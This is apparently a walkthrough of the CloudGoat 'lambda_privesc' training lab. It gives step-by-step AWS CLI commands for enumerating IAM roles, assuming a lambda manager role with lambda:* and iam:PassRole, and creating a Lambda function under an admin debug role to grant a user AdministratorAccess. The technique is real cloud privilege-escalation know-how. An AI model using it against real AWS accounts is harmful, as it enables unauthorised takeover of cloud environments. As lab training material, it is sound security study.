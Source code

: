 # Lambda Privilege Escalation

## Goal
Achieve full administrator privileges through assuming a lambda role.

## Installation
```
./cloudgoat.py create lambda_privesc
```
## Assume Chris
1. Add the profile
```
aws configure --profile chris
Enter secret key, access key, region and output
```
2. Set the default role to avoid --profile
```
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
export AWS_PROFILE=chris
aws sts get-caller-identity
```

## Enumerate Roles
1. List Roles
```
aws iam list roles
{
    "Path": "/",
    "RoleName": "<role name>",
    "RoleId": "<role id>",
    "Arn": "arn:aws:iam::<account id>:role/<role name>",
    "CreateDate": "2023-04-20T22:59:53+00:00",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                    "Service": "lambda.amazonaws.com"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
{
    "Path": "/",
    "RoleName": "<role name>",
    "RoleId": "<role id>",
    "Arn": "arn:aws:iam::<account id>:role/<role name>",
    "CreateDate": "2023-04-20T23:00:03+00:00",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::<account id>:user/<user name>"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
```
2. Identify permissions in role
```
aws iam list-attached-role-policies --role-name <lambda manager role name>

aws iam get-policy-version --policy-arn <policy arn> --output json --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "lambda:*",
                        "iam:PassRole"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "lambdaManager"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-04-20T22:59:53+00:00"
    }
}
```
From the above permission, we can confirm that the manager is able to perform any lambda actions and a pass role can be put to the lambda function.

## Assume Lambda Manager Role
1. Assume the lambda manager role
```
aws sts assume-role --role-arn <manager role arn> --role-session-name manager --output json
```
2. Add the profile
```
aws configure --profile manager
nano ~/.aws/credentials
<Add aws_session_token={session token for manager}>
```
## Enumerate debug role permissions
1. Enumerate permissions
```
aws iam list-attached-role-policies --role-name <debug role name>
ATTACHEDPOLICIES        arn:aws:iam::aws:policy/AdministratorAccess     AdministratorAccess
```
Thus, we can create a lambda function passing the debug role with full administration access.

## Craft Lambda Function
1. Copy lambda.py and replace corresponding variables. The lambda function should add the administrator access permission to chris.
2. Zip the file 
3. Create the function
```
aws lambda create-function --function-name lambda_privilege_escalate --role <debug role arn> --runtime python3.9 --profile manager --handler lambda.lambda_handler --zip-file <path to lambda.py.zip>
```
4. Execute function
```
aws lambda invoke --function-name lambda_privilege_escalate output.txt --profile manager
```
5. Check Permissions for Chris
```
aws iam list-attached-user-policies --user-name <chris user name>
...
ATTACHEDPOLICIES        arn:aws:iam::aws:policy/AdministratorAccess     AdministratorAccess <- This policy is attached!
```

## References 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/lambda_privesc/README.md